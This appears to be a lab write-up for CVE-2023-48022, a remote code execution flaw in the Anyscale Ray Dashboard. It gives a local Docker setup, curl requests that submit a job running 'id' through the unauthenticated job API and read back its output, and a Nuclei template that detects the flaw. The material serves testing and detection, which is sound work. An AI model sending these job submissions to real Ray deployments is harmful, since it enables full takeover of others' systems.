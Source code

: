 # CVE-2023-48022 - Anyscale Ray (RCE)

## Description  

Anyscale Ray versions 2.6.3 and 2.8.0 are vulnerable to remote code execution (RCE) due to insecure job submission handling in the Ray Dashboard API. An attacker with network access to the dashboard can submit and execute arbitrary code jobs, leading to full system compromise.

## References

- https://bishopfox.com/blog/ray-versions-2-6-3-2-8-0
- https://vulncheck.com/xdb/497d7fb3b118
- https://github.com/jakabakos/ShadowRay-RCE-PoC-CVE-2023-48022
- https://vulncheck.com/xdb/d3bafad9c9f6
- https://github.com/0x656565/CVE-2023-48022
- https://nvd.nist.gov/vuln/detail/cve-2023-48022

## Lab Setup

- Run the following command to build and start the container:

  ```bash
  docker-compose up -d
  ```
Once the container is running, the Ray Dashboard will be available at: `http://localhost:8265`

## Exploitation Steps

- **Submit a malicious job** via the vulnerable API:

   ```bash
   curl -X POST http://localhost:8265/api/jobs/ \
     -H "Content-Type: application/json" \
     -d '{"entrypoint": "id", "submission_id": "exploit123"}'
   ```

- **Wait a few seconds**, then fetch the logs:

   ```bash
   curl http://localhost:8265/api/jobs/exploit123/logs
   ```

- If successful, the logs will include command output from the `id` command (e.g., `uid=0(root) gid=0(root)`), confirming remote command execution.


## Steps to Write Nuclei Template  


**HTTP Requests**
```yaml
variables:
  jobid: "Job_{{rand_base(6)}}"

http:
  - raw:
      - |
        POST /api/jobs/ HTTP/1.1
        Host: {{Hostname}}
        Content-Type: application/json

        {
          "entrypoint": "id",
          "submission_id": "{{jobid}}"
        }

      - | # wait for 8 seconds before getting the logs
        GET / HTTP/1.1
        Host: {{Hostname}}

        {{wait_for(8)}}

      - |
        GET /api/jobs/{{jobid}}/logs HTTP/1.1
        Host: {{Hostname}}
```
- Submits a job with id as the command.
- Waits for 8 seconds to allow the job to run.
- Retrieves the logs to confirm code execution.

**Matchers: Detecting Access**
```yaml
    matchers:
      - type: dsl
        dsl:
          - 'status_code == 200'
          - 'contains(body, "logs\":")'
          - 'contains(content_type, "application/json")'
          - 'regex("uid=([0-9(a-z)]+) gid=([0-9(a-z)]+)", body)'
        condition: and
```

- These matchers confirm that:
    * The request was successful (`status_code == 200`)
    * The response contains a `"logs":` key
    * The content type is JSON (`application/json`)
    * The body includes the output of the `id` command (validated with a regex)

## Nuclei Template URL : [CVE-2023-48022](https://github.com/projectdiscovery/nuclei-templates/blob/main/http/cves/2023/CVE-2023-48022.yaml)

## Nuclei Command

```bash
nuclei -id CVE-2023-48022 -u localhost:8265 -vv
```